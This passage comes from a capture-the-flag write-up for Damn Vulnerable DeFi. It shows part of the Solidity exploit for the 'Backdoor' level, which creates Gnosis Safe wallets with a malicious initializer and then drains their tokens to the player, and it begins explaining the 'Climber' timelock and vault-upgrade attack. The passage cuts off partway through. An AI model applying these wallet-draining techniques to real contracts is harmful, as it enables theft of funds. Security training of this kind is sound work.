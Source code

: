 ```solidity
  address(0),               // paymentToken, no use here.
  uint256(0),               // payment value, no use here.
  address(0)                // paymentReceiver, no use here.
);

// We set the initializer into the call to create the wallet
GnosisSafeProxyFactory(level.walletFactory())
  .createProxyWithCallback(
    address(level.masterCopy()),
    initializer,
    uint256(0x42),
    IProxyCreationCallback(level.walletRegistry())
  );
```

After the wallets are created, the attacker simply issues a transfer.

```solidity
for (uint8 i = 0; i < users.length; i++) {
  DamnValuableToken(level.token()).transferFrom(
    level.walletRegistry().wallets(users[i]),
    level.playerAddress(),
    10 ether
  );
}
```

### References

* https://blog.openzeppelin.com/backdooring-gnosis-safe-multisig-wallets

## 12 Climber

To beat this level, we need to comply with

* Vault is drained, and the player got all its funds.

```solidity
assertEq(token.balanceOf(address(vault)), 0);
assertEq(token.balanceOf(playerAddress), VAULT_TOKEN_BALANCE);
```

### Solution

* We notice that the owner of the `vault` is the instance of the `ClimberTimelock` contract.
* The `ClimberTimelock` contract has a function `execute()` that can be called by everybody. However, it will only execute the given commands by checking from an "operation id" that is computed from the parameters that its status is `OperationState.ReadyForExecution`.
* To be `ReadyForExecution`, we need to pass the same parameters to the contract `schedule()` function. This function requires the `PROPOSER_ROLE`. Also, the operation won't be ready until we set the `delay` variable to `0`.
* On the side of the `ClimberVault` contract, while there is a `sweeper` role, there is not a clear way to set it nor enable it. Since we could leverage the owner privileges with the `execute()` function, however, we can just upgrade the contract to one which initialization gives a `transfer` to the player.
* Then, the solution of the level is built the following way:
* Leverage the `execution()` function with 4 commands:
* First, we give the `PROPOSER_ROLE` to an `AttackerSchedule` contract.
